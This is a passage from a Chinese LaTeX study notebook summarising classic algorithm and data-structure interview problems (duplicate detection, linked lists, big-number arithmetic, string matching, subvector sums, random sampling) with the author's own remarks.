\cite{pp}2.6.2,文件中包含多于43亿个32位整数(32位整数有42.9亿种取值),要求找到一个重复的整数。如果内存无法容纳位图(32位整数需要512MB的位图空间),可以在值域二分搜索,即查找小于中间值的数值是否冗余,然后值域缩半。每次迭代将当前值域的样本复制到另一个工作磁带上,但空域空间大于值域空间,不能保证空域缩半,因此最差情况下复杂度为$NlogN$。优化:(\cite{pp}2.6.2 Jim Saxe),如果值域容量为m,则只复制m+1个样本,保证空域缩半。另外(\cite{self}, 参\ref{subsec:orderStatistics}),当m足够小时,开始使用位图法或全部载入内存。另外(\cite{self}),即使空域不缩半,如果每次迭代都将空域按一个线性因子缩小,则平均时间也为线性(无限项等比级数之和)。当发现当前值域空间存在冗余时,即可丢弃当前空域位置之后的位置。这样,不需要复制额外的文件,只要更新文件搜索范围即可。进一步,对文件的访问可以采用搅拌式。

\label{subsec:dupNumberInFile}

%!Mode:: "TeX:UTF-8"

\section{数据结构问题举例}

\subsection{$O(1)$时间内删除链表结点}
\cite{sword}13。将下一个结点的内容复制到本结点再删除下一个结点。\textbf{本题极易在边界处理上出错}。第一,如果要先判断该结点是否存在于链表,需要$O(n)$时间,\textbf{必须声明这个责任归调用者}。
第二,如果要删除的恰好是\textbf{尾结点},\textbf{则同样无法在$O(1)$时间内完成}。第三,如果要删除的是头结点,需要更改头指针。


\subsection{m个互异整数搜索结构}
\cite{pp}13介绍了有序数组,有序链表,BST,位向量,桶。
链表相对于数组,适用于待存放元素个数不明确的情形。虽然链表在插入数据时不需要移动数据,但其内存访问不连续且需要额外空间存放指针,对cache不友好,性能甚至不如数组。对于纯搜索过程,有序数组可以在log时间内完成,链表需要线性时间。桶实质是一种散列结构,用链表处理碰撞。


\subsection{实现快速返回最大值的队列}
\cite{bop}3.7。
方法零:按照传统方式,以数组或链表存储队列,两个指针指向头尾。MaxVal操作复杂度为$O(N)$,增、删复杂度为常数。个人认为可以保存最大值,增删是予以更新,Enqueue的复杂度为常数, dequeue复杂度线性, MaxVal复杂度为常数。方法一:使用堆。Enqueue和Dequeue为$O(logN)$, MaxVal为常数。类似于\cite{ita}中的优先级队列。方法二:\cite{bop}提出了一种$O(1)$时间MaxVal操作的栈结构,用链表连接不同状态时的最大值,并用两个这种栈串联实现了队列。


\subsection{有序文件多路归并}
\cite{pp}14.6.4.d。用堆(优先级队列)表示每个文件的下一个元素。从堆中选出最小元素,再从对应文件中补上。

\subsection{二叉树中最远节点}
\cite{bop}3.8。
经分析可知,最远两节点有两种情况:两个叶子节点;根节点和一个叶子节点,此时根结点左右子树其一必为空。总之,为某子树(或本树)左右子树最大高度之和(叶子结点高度为1)。可深度优先遍历,检查以各结点为根结点的子树的左右子树的高度之和,更新当前最优解。书上使用的是递归方法,要求自作非递归法。



\subsection{分层遍历二叉树}
\cite{bop}3.10。有两问。第一问是打印某一层结点。第二问是从上到下分层打印各结点,层内从左到右。扩展题是从下到上分层打印各结点,层内从左到右或从右到左。对于第一问,按照正常流程遍历树,判断层数合适则打印。其他问题,使用一个数组,将根结点压入,遍历数组,同时按照一定规则将各结点压入数组末尾。最终数组中元素排列符合要求。此题比较简单。



\subsection{稀疏矩阵存储}
\cite{pp}10.2提出用数组表示各列,指向行链表。同时提出如果编程语言不支持指针,可以把所有行依次相连为单一大数组,用另一个数组表示各列首元素在大数组中的位置。\cite{pp}10.6.2提出,依此按照x、y坐标排列各元素,以支持二分搜索。对于其他空间节省技术,经常是通过仅存储差量来实现,r如\cite{pp}10.6.4,10.6.5。
\label{problem:sparseMatrix}



%!Mode:: "TeX:UTF-8"

\section{数论与数字问题举例}
本节中的问题涉及非常大的数字,普通内置数据类型容易溢出,应自定义BigInt类型,可用数组或字符串实现。一般用字符‘9’表示数字9就可用了,如果为节省内存,可用uchar存储0到255之间的数字,但是这样不方便打印。如果需要打印数字,可用uchar存储0到99之间的数字,相当于100进制。

\subsection{浮点数的N次方运算}
\cite{sword}面试题11。
求$b^N$,这里限定N为整数,且不考虑大数问题。\textbf{本题容易在边界条件问题上出错,做对的人很少}。
首先如果$N<0$,则$b$不能是零(\textbf{浮点数与零的比较应采取误差判断},而不能直接用相等运算符),$b^N \gets 1.0 / b^{-N}$。
如果$N=0$,则$b$不能为零,其他$b$值直接返回1.0。如果N是正偶数,则$b^N \gets (b^{N/2})^2$,可用递归运算。如果N为正奇数,则
$b^N \gets b \cdot b^{N-1}$。

\subsection{打印N位以内的所有数字}
\cite{sword}面试题12。
首先要意识到涉及大数问题,用长度为N+1的数组构造大数,以字符形式表达每个数字。
解法一模仿数字的进位。解法二转为全排列问题,可用递归解决。



\subsection{N!十进制/二进制中末尾的0个数}
\cite{bop}2.2。\\
对于十进制,0的个数等于所有质因子中5的个数。每隔5,产生一个因子5;每隔25,又产生一个因子5;每隔125,625,\ldots,
对于二进制,类似。另外N!中质因子2的个数等于N-N的二进制表示中1的个数。
\subsection{选择M,使N*M只包含0和1}
\cite{bop}2.8。\\转化为选择符合条件的K,使得K整除N。遍历K,值域按照模划分为N份,每份只保留最小者。K从i位数变成i+1位,相当于用$10^i$加上已访问的所有数,那么,i+1位数模N的结果依次为$10^i mod N$加上已访问的数$mod N$的和再模N。直到mod值为零的集合不再为空。遍历结束的条件,书上提到循环节的概念,不甚明了。

\subsection{不使用判断和分支语句实现两个整数的最大值}
\cite{ccpppibible}317,号称华为面试题。\\
方法1:\verb$ (a+b+abs(a-b))/2$。竟然是用了库函数!

方法二:\verb$ #define IsMax(a,b) = unsigned(a-b) >> (sizeof(int)*8-1)$,
于是$max=IsMax(a,b)*a+IsMax(b,a)*b$。


\subsection{长内存块中bit1的个数}
\cite{pp}9.5.7\\
方法一:以字节或字为单位,统计每个单位中bit1的个数,再累加。百度2014年面试曾要求复杂度与字长无关,该法不适合。
方法二:查表法,对每个单位通过查表的方式获得1的个数,再累加。
方法三:统计一个单位的取值分布,对于每个值出现对次数,乘以该值对应的1的个数。

\subsection{高效实现C语言isupper函数}
\cite{pp}9.5.6\\
使用一个256元的表(可以完全纳入缓存),定义
\begin{verbatim}
#define isupper(c) (uppertable[c])
\end{verbatim}
大多数系统为表中每个元素存储几个bit,通过逻辑与操作来提取
\begin{verbatim}
#define isupper(c) (bigtable[c] & UPPER)
#define isalnum(c) (bigtable[c] & (UPPER|LOWER|DIGIT))
\end{verbatim}


\subsection{最大公约数}
\cite{bop}2.7。\label{subsec:gcd}
方法0:欧几里德算法,辗转相除.
方法1:欧几里德算法减法版本,避免除法,但增加了减法.\verb|int gcd(i,j){while(i!=j){if(i>j)i-=j;else j-=i;}}|。
方法2:gcd初设为1。若两数均even,则均右移1位,gcd左移1位;若其一为even,则右移至成odd;若均为odd,则其一赋为两者差,必为even。通过最低bit快速判断奇偶性。


\subsection{数字逆转}
即123->321,-123->-321。代码很短,不需区分正负:
\begin{verbatim}
int reverse (int x) {
        int r = 0;
        for (; x; x /= 10)
            r = r * 10 + x % 10;
        return r;
}
\end{verbatim}
关于溢出的处理是:放任。注意对INT\_MAX加1会得到INT\_MIN,且不出现任何错误(与errno无关)。


\subsection{丢失的数字}
如果一个整型数组除了一个数字之外每个数字都出现两次,如果找到丢失的数字?全部异或。
如果\textbf{除了两个数字}之外每个数字都出现了两次呢?全部异或后能得到至少一个bit为1,按该bit分割数组,子数组各自只包含一个落单数字了。
如果除了一个数字之外每个数字都\textbf{出现三次}呢?统计各bit出现频率,不为3的倍数的bit会出现在落单数字中。




















%!Mode:: "TeX:UTF-8"
\section{字符串问题举例}

\subsection{字符串移位包含问题}
\cite{bop}3.1。串A看作环形,是否包含串B。判断A+A是否包含B即可。


\subsection{词典聚类:变位词和电话键盘}
\cite{pp}2.4, 2.6.1。找出词典中所有互为变位词的集合,以及给定单词找出字典中所有它的变位词。词典中所有单词计算其标识,使得所有变位词具有相同标识。标识与单词构成元组,基于该标识对各元组排序,即可将所有变位词聚类。对于后一问题,可以按照前一个问题对各元组排序,执行词典预处理,这样就能使用二分搜索。实际系统往往使用散列技术或数据库系统(\cite{pp}2.6.6答案)。标识可以是单词内对字母按照字母表排序后形成的字符串。可以推广到对数据库中元组基于某规则进行归类。例如将将名字映射为拨号按键序列的问题(\cite{bop}3.2,\cite{pp}2.6.6, \cite{pie})求解所有映射成相同序列的名字,以及给定序列返回所有对应名字,此时标识就是按键序列。
\label{problem:dictClassify}

\subsection{字串枚举:电话号码对应英文单词}
\cite{bop}3.2, \cite{pie}P119\\
问题1:枚举一个电话号码能够构成的所有字母组合,普通枚举问题。问题2:基于词典,一个给定电话号码是否构成有意义的单词。方法一:基于问题1的解答,将每个答案同词典进行匹配,需要遍历词典很多次。方法二:将可以构成单词的电话号码预先存放到数字词典中。方法三:实质可看作词典聚类问题,参\ref{problem:dictClassify},遍历一遍词典,判断每个单词是否符合这个电话号。
\label{question:phonekeyboard}

\subsection{文档词频统计}
\cite{pp}15.1。不基于词典,单词词形没有限制。利用散列表存储每个单词的词频,表的长度为质数29989,使哈希载荷因子接近1(圣经中有29121个单词,区分大小写),用链表解决冲突。每次查询几乎为常数时间。总时间正比于文档长度。

\subsection{至少重复两次短语最大长度}
\cite{pp}15.2。此题没有单词的概念,只有字符。基于双指针同向扫描的算法需要平方时间。可以采用后缀数组,数组中每个元素为指针,指向文档中每个字符,相当于文档的每一个后缀都在数组中有所对应。然后基于对指针指向的字符串的比较,对后缀数组排序。扫描排序后的后缀数组,查看当前字符串与下一个字符串的共同前缀长度,找最大值。如果字符串比较的时间看作常数,那么总开销取决于排序,为线性乘以对数时间。然而,如果文档所有字符都一样,或者文档是由另一个文档复制了两次而来,那么字符串比较的时间和计算共同前缀的时间可能会正比于文档长度。

扩展:至少重复K次的最长短语(\cite{pp}15.5.8)。 同样对后缀数组排序,扫描后缀数组,查看当前字符串和后面第K-1个字符串的共同前缀长度,这两个字符串的共同前缀也是中间K-2个字符串的前缀,找最大值。

\label{problem:maxlenphrase}。

\subsection{K单词马尔可夫文本预测}
\cite{pp}15.3。基于当前位置K个单词预测下一个单词。在学习阶段,对训练文档,建立后缀数组(参\ref{problem:maxlenphrase})并排序,本题后缀数组的每个指针元素指向文档的各单词,而不是指向所有字符。同时,比较函数也改为,如果前K个单词相同则断定字符串相同)扫描后缀数组。在预测阶段,对于给定K单词短语,利用二分搜索在对数时间内定位到后缀数组中有相同K单词前缀的字符串(if any),在这些字符串中随机选择一个,输出该字符串的下一个单词即可。作为优化(\cite{pp}15.5.8),不对后缀数组进行排序,而是将每个后缀的位置存放在散列表中,使得具有相同K单词前缀的后缀在同一个散列表项中。这样,在预测阶段只用常数时间即可完成对给定短语的搜索。 


\subsection{最长公共子序列LCS}
算法导论动态规划章,子序列不需连续。

$LCS[x][y]= \left\{ \begin{array}{l} LCS[x-1][y-1]+1, A[x]=B[y] \\ max\{LCS[x][y-1], LCS[x-1][y]\}, A[X] \ne B[y] \end{array}  \right. $

\label{subsec:LCS}

\subsection{最长公共子字符串}
\cite{pp}15.5.9。与子字符\ref{subsec:LCS}的区别在于子串连续。将两个源字符串连接在一起,记录分隔点的位置,转换为求解最长重复短语的问题(\ref{problem:maxlenphrase}),区别在于扫描后缀数组时,如果当前后缀和下一个后缀出自相同的源字符串,则跳过。通过比较当前后缀对应的位置和分隔点的位置,可判断出该后缀出自哪个串。使用``异或''操作判断两个后缀是否出自同串。


\subsection{字符串相似度}
\cite{bop}3.3。相似度为最小的变换次数(记$\delta$, 单字符增、删、换)的倒数。
曾认为可先求LCS(\ref{subsec:LCS}),不妥。 简记A[x\ldots A.lenght-1]为A[x], 
\begin{displaymath}
   \delta(A[x], B[y])=
   \left\{
   \begin{array}{l}
       D[x+1][y+1], A[x]=B[y] \\ 
       min\{\delta[x][y+1], \delta[x][y+1], \delta[x+1][y+1] \}, A[y] \ne B[y]
   \end{array} 
    \right.
\end{displaymath}
\cite{bop}上程序写的大概是
\begin{math}
       min\{\delta[x+1][y+2], \delta[x+2][y+1], \delta[x+2][y+2] \}, A[y] \ne B[y]
\end{math}
,我认为不太正确。存在重复计算,可优化。

\subsection{包含所有关键词的最短摘要}
\cite{bop}3.5。枚举所有报文段($O(N^2)$),枚举的过程中检查是否包含所有M个关键词($O(N^{2} \cdot M)$)。作为优化,\cite{bop}提出只考虑以关键词为开端的报文段。本题以搜索引擎为背景,个人认为不适合空间复杂度较高的算法,因此,不适合预处理报文,比如标记关键词在报文中的位置。检查任意报文分词是否为关键字的复杂度为$O(M)$。


\subsection{字符串中只出现一次的字符}
\cite{ms100}17。基于ASCII字符值域有限的特性,建立一长度255的数组,保存每个字符出现的次数。


\subsection{比特字符串排序}
\cite{pp}11.5.5。可变长位字符串排序,x[0\ldots n-1]每项包含整数length和指向数组bit[0\dots length-1]的指针,设bit[i]返回第i个bit的值(0或1)。 首先将长度小于递归深度的字符串移动到最左,再利用快速排序的Lomuto划分(参\ref{summary:quicksort}),将剩余部分划分成两部分,分布递归,检查下一位。

\begin{lstlisting}[language=C]
void bsort(l,u,depth)
    if l >= u return
    for i in [l, u]
	if x[i].length < depth
	    swap(i, l++)
    m = l
    for i in [l, u]
	if x[i].bit[depth] &=&  0
	    swap(i, m++)
    
    bsort(l, m-1, depth+1)
    bsort(m, u, depth+1)
\end{lstlisting}

一开始用bsort(0,n-1,1)调用该函数。运行时间正比与待排序数据量,即各字符串长度总和。swap移动的是字符串指针而非字符串本身。 \cite{self}认为该代码有误,除非bit的索引从1而非零开始。

\subsection{中缀表达式转为后缀表达式}
初始化一个空堆栈,将结果字符串变量置空。
从左到右读入中缀表达式,每次一个字符。
如果字符是操作数,将它添加到结果字符串。
如果字符是个操作符,弹出(pop)栈中操作符,直至遇见开括号(opening parenthesis)、优先级较低的操作符或者同一优先级的右结合符号。把这个操作符压入(push)堆栈。
如果字符是个开括号,把它压入堆栈。
如果字符是个闭括号(closing parenthesis),在遇见开括号前,弹出所有操作符,然后把它们添加到结果字符串。
如果到达输入字符串的末尾,弹出所有操作符并添加到结果字符串。





















%!Mode:: "TeX:UTF-8"

\section{向量分析问题举例}

\subsection{数组中最大的K个数}
参\cite{bop}2.5, \cite{ita}9.2-9.3(\cite{ita}称找到第k小的数为kth order statistics)。
方法零:全部排序,$O(NlogN)$, 适用于多次查询场景;或只对前k个数部分排序,$O(nk)$,可使用利用选择或交换的排序算法\cite{subsec:sortAthmClass}。
方法一:随机分割保留单侧。\cite{ita}9.2称之为RANDOMIZED-SELECT算法, \cite{pp}11.5.9和\cite{wikipedia}称之为选择算法。期望运行时间为线性,最差为平方时间。\cite{ita}9.3的SELECT算法通过精心挑选pivot来确保最差时间也为线性。涉及随机访问,不适合外存储操作。\cite{bop}2.5.3认为线性算法常数项太大,未必好。
方法二:值域二分查找。每次迭代需要线性时间,迭代次数为$log_{2}(V_{max}-V_{min}/\delta)$,$\delta$为元素间最小间隔(对于整数,$\delta$为1)。对于均匀分布的数据,总时间为NlogN。文件操作优化(\cite{bop}2.5.3):每次迭代,将当期搜索区间的样本复制到新的文件中(\cite{self}:磁盘可能频繁换道,但适合于两个磁盘或磁带,参\ref{subsec:dupNumberInFile}),当区间内的样本数能够全部载入内存时,则不需要再进行文件操作。\cite{self}认为,为减少磁盘换道,对文件的读取采用搅拌式。
方法三:前K个元素生成容量为K的大顶堆,从第K+1个元素开始遍历,更新堆的内容。时间为$O(NlogK)$适合外存储操作。如果K个数可以全部载入内存,则只遍历文件一遍,不涉及随机访问。如果K也很大,需要将k分割为多个可以载入内存的部分(\cite{bop}2.5.4)。
\label{subsec:orderStatistics}

方法四:如果值域有限且非常小,计数排序(\cite{bop}2.5.5)。

\subsection{找到数组中最大数和最小数}
\cite{bop}2.10。如分别独立找到最大值和最小值,需要2N次比较。其他方法可以达到1.5N次比较。
方法一:每邻近的一对数为一组,组内比较,较小者调整到奇数位置。进而分别在奇数位置和偶数位置寻找最小和最大。
方法二:每邻近的一对数为一组,遍历每个组,每组内用3次比较更新当前的最大值和最小值。
方法三:分治法。
其时间复杂度见:\ref{DivideComplex}。



\subsection{数组相邻差值最大值}
\cite{bop}2.11扩展1\\
所述相邻指值的相邻,并非数组中位置的相邻。
根据抽屉原理,相邻差值的最大值应不小于delta=(Vmax-Vmin)/(N-1)。将取值域分解为长为delta的若干桶,每隔桶内不会有我们希望的值。记录每个桶的最大值和最小值,然后遍历所有的桶即可。时间和空间复杂度都是线性。



\subsection{找出数组中和为给定值S的两个数}
\cite{bop}2.12, \cite{ms100}14\\
方法一:排序,对数组中每个数A,用二分法查找S-A是否在数组中。$O(NlogN)$。方法二:建立Hash表,使得用$O(1)$时间即可求出某个值是否在数组中,对数组中每个数A,查找S-A是否在数组中。时间与空间复杂度均为线性。方法三:双下标相向游动.先排序,然后从数组的头和尾分别寻找一个数,使其和为S。查找时间为线性。书中提到,很多题目要求返回两个数组下标的,适用类似方法,即在一个循环体里用两个变量反向遍历。

\subsection{子向量最大和}
\cite{bop}2.14, \cite{pp}第8章整章讲述该问题。\label{problem:maxsubvector}\\
方法零:枚举所有子向量$O(N^2)$,计算其和, 总时间$O(N^3)$。若将求和与枚举操作的第二个循环合并,或者预先计算累加数组,总时间$O(N^2)$。方法二:分治法,分别在两个砍半数组中求解局部最优,再求解跨界解,给定两个序列头部,分别向前、向后搜索合适的子数组尾部。总时间$O(NlgN)$。方法三:动态规划,寥寥数行代码,线性时间复杂度。遍历数组,更新已遍历部分以当前位置为结尾的最优解,和已遍历部分最优解,后者的更新依赖于前者。方法四:\cite{self}为便于理解方法三而创,全局最优解必为以某i为结尾的子数组,先用线性的时间和空间求出以各i为结束的子数组的最大值序列maxEnd[i],maxEnd[k]依赖于maxEnd[k-1]。再用线性时间找到maxEnd[i]数组中的最大值即可。方法五:线性时间分治法\cite{pp}8.7.8。分别在两个砍半数组中求出局部最优和跨界最优,则总的跨界最优借即为两个砍半数组跨界最优解之和。
\label{subsec:maxsubsum}

\subsection{总和最接近0的子向量}
\cite{pp}8.7.10,是\ref{problem:maxsubvector}的延伸。使用累加数组,$cum[-1]=0,cum[i]=\sum_{k=0}^{k=i}{x[i]}$,转化为求cum[n]中最接近元素的问题。可以在$O(NlogN)$时间内通过排序来完成。似乎可以仿照原题对动态规划算法,将评价指标更改即可。\label{problem:zerosubvec}

\subsection{总和最接近常数t的子向量}
\cite{pp}8.7.10,是\ref{problem:maxsubvector}的延伸。书上未给出答案。如果仿照\ref{problem:zerosubvec}使用累加数组,转化为求cum[n]中差值最接近t的问题。可以在$O(NlogN)$时间完成排序,通过$O(NlogN)$时间在有序数组中完成查找。似乎可以仿照原题对动态规划算法,将评价指标更改即可。

\subsection{环形数组子向量最大和}
\cite{bop}2.14扩展1\\
将解空间分为两部分,一部分不过尾,参考\ref{subsec:maxsubsum}。另一部分过尾。过尾者,分别从头和尾按照两个方向求出最优子序列。书上如此似乎未能妥善处理两个最优子序列重叠的情况。我认为应该求出数组总和,减去子向量长度最小值。

\label{subsec:maxroundsubsum}

\subsection{二维数组子向量最大和}
\cite{bop}2.15\\
方法零:枚举,$O(N^2 \cdot M^2) \cdot \textrm{二维求和复杂度}$,通过部分和缓存方法,可以将二维求和复杂度做到$O(1)$。所谓部分和就是从某元素到原点的连线为对角线的矩形区域进行求和。方法二:只在Y维度进行枚举,确定上下边,按照一维的方法(参\ref{subsec:maxsubsum})确定左右边,求出子数组之和,$O(NM \cdot min(N,M))$。按照这两种方法,可以将问题扩展为三维、四维。参考\ref{subsec:maxroundsubsum} ,可以求解首位相连情形。


\subsection{最长递增子序列(LIS问题)}
\begin{verbatim}
http://en.wikipedia.org/wiki/Longest_increasing_subsequence
\end{verbatim}
\cite{bop}2.16\\
同\ref{subsec:maxsubsum}节不同,此处序列不必连续。
此题如使用枚举方法,子序列共有$2^N$个,不合适。方法一:动态规划,考虑各序列末尾元素的位置。记LIS[i]为以i为末尾的最长递增子序列(书上说是前i个元素中的最长子序列),至少为1。$LIS[i]=max\{1,LIS[k]\}, k<i, array[k]<array[i]$。最终返回$max{LIS[i]}$,时间复杂度为$O(N^2)$,需存储LIS数组。方法二:动态规划,考虑各序列的长度和末尾元素的值。遍历数组,存储$TAIL[j]$为当前(在遍历过程中更新)时刻所有长度为j的递增序列的尾值的最小值(最佳值,因为尾值越小,新加入的元素越有可能参与本条递增序列),MAXL为当前的最长递增序列的长度(即当前数据集的最优解),所有的递增链的长度都不会超过该值,TAIL数组的有效坐标也不应超过该值。TAIL数组必定是单调增的,假设新加入的元素(位于array[i])的值介于TAIL[j]和TAIL[j+1]之间,意味着新元素可以追加到长度为j的序列上,形成更优的长度为j+1的序列,那么可以递推出LIS[i] = j+1, 且TAIL[j+1]=array[i]。时间复杂度$O(N^2)$。方法三:思路同方法二,但在选取j时,从LIS[i-1]开始,并使用二分查找。利用了TAIL为递增数组,及$LIS[i] \le LIS[i-1]+1$。本节及\ref{subsec:maxsubsum}启发我们,数组不仅可看作静态的数据集合,也可看作一个更大的动态增长的数据集的组成部分。

\subsection{数组均匀分割}
\cite{bop}2.18,要求长度为2N的正整数数组分成两个长度为N的数组,且和最接近\\记数组为array[k], 和的一半为S。
方法零:枚举法的复杂度$\left( \begin{array}{c} N \\ 2N \end{array} \right) = \frac{(2N)!}{N!N!}$,找出最接近S的组合。
    方法一:动态规划,遍历数组,当前下标记作$k$,更新集合类$V_i,i \le k$, $V_i$表示任意i个元素的和的可取值。最终研究$V_N$中的最优值。书中未提及如何据此找到对应分配方案。可能需要在$V_i$中添加附加信息。复杂度为$O(2^N)$。
方法二:如果取值域很小,用boolean数组isOK[i][s]表示是否能存在i个变量其和为s。三维遍历k,i,s, $i \le N,i \le k, s \le S$, 如果isOk[i-1][s-array[k]]为真,则isOk[i][s]为真。最终得到了isOk[N][]数组。复杂度$O(N^2 S)$。适用于$S$较小的情形。扩展问题是如果数组中有负数当如何。我想,将数组部分和取值空间映射为从零开始的正整数作为isOk[][]第二维度即可继续采用方法二。

\subsection{有序数组循环移位后求最小值}

大部分情形下可用在$O(\lg n)$时间二分缩进查找,但\textbf{有些特殊数组无法二分缩进}(如首、尾、中值相同,无法区分{1,1,1,0,1}和{1,0,1,1,1}还是{1,1,1,1,1}),此时可改用线性查找。
另外,(可选地)先判断数组如仍是有序的(A[1] < A[n]),可直接返回首值。


\subsection{约瑟夫环问题}
\cite{ms100}18,\cite{sword}45。圈有n个结点,击鼓传花式不断删除第m个结点。记该问题为f(n,m),有 $f(n,m)=[f(n-1,m)+m]\bmod n$


%!Mode:: "TeX:UTF-8"

\section{杂问题举例}

\subsection{最优围栏问题}
阿里巴巴2013年面试问题:为某n边形地皮建立围栏,围栏材料总长度等于地皮周长,需要切成n段,每次切分的开销等于被切法材料的长度,求最优切法顺序。方法:构建霍夫曼树,每个围栏线段的长度为叶子节点。

\subsection{装箱问题的首次适应算法}
\cite{pp}14.6.5。
问题:将n个权值在(0,1)之间的数字分配到最少数目的单位容量箱。首次适应启发式算法按序考虑权值,按升序扫描箱,装入第一个合适的箱中。将箱组织成堆状结构,叶子结点为每个箱的剩余容量,其他结点的值为其子树中最空的箱的剩余容量。在选箱时,如果左右子树都合适,则选左树。选箱时间为对数,插入权值后沿插入路径更新剩余容量。

\subsection{日期计算}
\cite{pp}3.7.4,计算日期差、某天是周几以及为某月生成日历。历法常识参\ref{subsec:leapyear}。
日期差:基本思想是转换为各日期与相应元旦的差值,加上各元旦之间的差值。首先分别计算两个日期在所在年之内的编号,用后者减去前者,再加上年份差的365倍,再为每个闰年(包括起年,不包括止年)加1。求周几:需要计算给定日期和已知周日之间的天数,再做模运算。计算日历:需要知道该月1号为周几以及该月有多少天。

\subsection{大空间初始化避免}
\cite{pp}1.6.9。大数组data[0\dots n-1]需要初始化(如data[i]='a'+i\%26),采取以空间换时间的即用即初始化策略回避对整个数组的初始化。开辟长度亦n的整数辅助数组history,eventNumber,变量top置0。检查data[i]是否已经初始化(访问过):\verb|if(0<=eventNumber[i]<top AND history[eventNumber[i]] is i)|。对data[i]的首次访问使用:\verb|eventNumber[i]=top;history[top]=i;init data[i];top++|,history数组记录初始化历史,依次指向各初始化事件的依此人。eventNumber[i]表示data[i]是第几例初始化(在history数组中的位置)。\label{problem:removeInit}

\subsection{区间[0,n-1]随机取出m个整数}

问题1:输出m个有序不重复整数(\cite{pp}12.5.8)。
方法1:候选空间遍历。(\cite{acp}3.4.2算法S,\cite{pp}12.2)\verb|s=m, r=n, for i in [0,n) { w.p.s/r{select i;s--;} r--;}|。该算法可保证如果r下降到同s相等则剩余候选数以概率1全部选中。时间同n成正比,当n很大时低效。$w.p.s/r$(with probability \verb|s/r|)实现为\verb|if (bigrand()%r < s)|。r和s分布代表select(剩余名额)和remaining(剩余候选集合)。
方法2:随机抽取,排序去重(\cite{pp}12.3)。可以使用C++ set模板类自动完成排序和去重,然后输出整个set。每次执行集合插入需要$O(logm)$,总时间$O(mlog m)$。如果使用其他数据结构\cite{self},要求方便地实现排序和搜索,如BST,有序数组,有序链表。而heap不适合搜索,很难实现去重。Bob Floyd给出了改进(\cite{pp}12.5.9),使得每次的抽样都不重复(第i次抽样空间为[0,i+n-m],且如果同以往重复则抛弃刚才的抽样,转而选取取门限值i+n-m作为抽样值,高于往次门限,必不重复)。这样,不要求数据结构本身具有方便搜索的功能,只要便于排序即可,可以使用堆。
方法3:候选集合洗牌,头部排序。(\cite{pp}12.3)。

\begin{verbatim}
for i in [0,n) x[i]=i; 
for j in [0,m) 
    swap(j, rand(j,n-1)); sort(x,0,m);return x[0..m-1]
\end{verbatim}


空间复杂度正比于n,n很大时难以接受。初始化时间正比于n(可以避免,参\ref{problem:removeInit}),洗牌时间正比于m,排序时间$O(mlogm)$。

问题2:输出m个随机序不重复整数(\cite{pp}1.6.4)。
问题1方法3,去掉排序环节;方法2,改为排序前输出,即每次取样值(该值首次)插入数据结构时即输出,而不是输出数据结构,可用使用Floyd改进。

问题3:输出m个有序可重复整数(\cite{pp}12.5.8)。
问题1方法2, 选择集合之外的便于排序的数据结构(heap, BST, 有序数组,有序链表,C++ multimap),抽取时不判断重复性,且不使用Floyd改进方案。

问题4:输出m个随机序可重复整数(\cite{pp}12.5.8)。
随机抽取,直接输出。问题3和4要求输出可重复整数,基于候选空间的算法不可用,只能基于抽取。


\subsection{计算浮点数均值}
\cite{pp}14.6.4.c, 11.5.1。两个差异较大的浮点数相加会产生精度问题。需要每次取集合中较小的两个数相加(类似于霍夫曼编码),可以用优先级队列来完成。

\subsection{矩阵的幂}
\cite{bop}2.9提及,计算$A^n=A^{2} \cdot A^{4} \cdot A^{8}\dots$,时间复杂度为$O(logn)$。网上有说将矩阵相似对角化,可加速计算。
\label{matrixexpo}
\subsection{Fibonacci数列}
\cite{bop}2.9。方法一:求出通项公式。方法二:$(F_n,F_{n-1})=(F_{n-1},F_{n-2})\cdot A, A=  \left( \begin{array}{cc}1&1\\1&0\end{array}\right)$,进而转化为求$A^n$。

见\ref{matrixexpo}节。



\subsection{运算方式受限的连续自然数求和}
\cite{ms100}第12题。求$ \sum_{i=1}^{n}i $,不得使用乘除法、循环、和判断语句。方法:判断语句可用短路语句替代,固定循环可以展开,然而依赖
于变量的不定循环难以替代。根据$ \sum_{i=1}^{n}i = (n^{2}+n)<<1$,而$n^{2}=\sum_{k=0}^{32}I\{\textrm{n的第k位为1}\}(n<<k)$,循环展开即可。
\subsection{不定子向量频繁增减不定值}
\cite{pp}8.7.12。x[n]长度为n,并执行n次运算:\verb|x[l:u] += v|,其中l,u,v每次会变。该过程消耗平方时间。如果使用差分数组$diff[i]=x[i+1]-x[i]$,\verb|x[l:u] += v|转化为\verb|diff[l-1] += v, diff[u] -=v |,运算n次后再恢复出x,只需线性时间。

\subsection{除掉一个数,使剩余数乘积最大}
\cite{bop}2.13\\
要求不使用除法。方法一:根据所有数乘积为正、负、零三种情况讨论,会发现不需要进行任何运算,很容易可以得到解法。方法二:记数组长度为N,s[i]为前i个数乘积,t[j]为后j个数乘积,耗费O(N)的时间和空间能求出s,t两个数组,那么除去第k个数的所有数的乘积为s[k-1]t[N-k-1],总时间为线性。



\subsection{坐标系中最近点对}
\cite{bop}2.11\\
方法零:枚举,$O(N^2)$;方法一:按X坐标分治,$O(N^2)$;方法二:按X坐标分治,求出不跨界的最近点对的距离为L;探索跨界点对距离时,范围缩小至距界线不超过L的范围,由此进行枚举,总复杂度仍为$O(N^2)$。跨界最近点对必处于Y方向距离小于L的带状区内(面积$2L^2$),且区内点数不超过8,左右半区点数各不超过4,则最近点对在Y方向间的点不会超过6个。书上说用$O(N)$时间完成对所有带状区内最近点对的查找,总时间$O(NlgN)$,具体方法不明。如果在X方向上2L区域内对点按Y值排序,$O(lgN)$,则总时间$O(Nlg^{2}N)$,比枚举法有进步。
扩展题2要求坐标系中最远点对,不解。

\subsection{目标区间是否包含于源区间并集}
\cite{bop}2.19\\
先对源区间进行排序$O(NlogN)$和合并$O(N)$,此后,目标区间包含于源区间并集当且仅当目标区间包含于某个源区间。如果目标区间反包含某源区间,或同某源区间交叠,均不成立。

\subsection{二级指针的应用}
\subsubsection{有序链表插入}

链表插入的繁琐之处在于,要判断头指针是否为空,以及是否需要更新头指针(头前插)。
通过哨兵(存放上限值,\cite{pp}13.2)使得链表至少有一个元素,无需检查head是否为空。
通过使用指向指针的指针(\cite{pp}13.6.4),避免区分头前和头后插入两种情况。
\begin{lstlisting}[language=C++]
for(pp=&head;(*pp)->val<t;pp=&((*pp))->next);
if (*pp)->val == t:return; 
*pp=new node(val=t, next=*pp);
\end{lstlisting}
\label{problem:listInsert}

\subsubsection{简洁实现BST插入}
通过哨兵(存放待搜索值)和指向指针的指针(\cite{pp}13.6.7),使得BST至少有一个元素,且无需单独判断是否需要更新root指针的值。
\begin{lstlisting}[language=C++]
sentinel->val=t;
for (pp=&root; (*pp)->val!=t;
	pp=(t<(*pp)->val)?
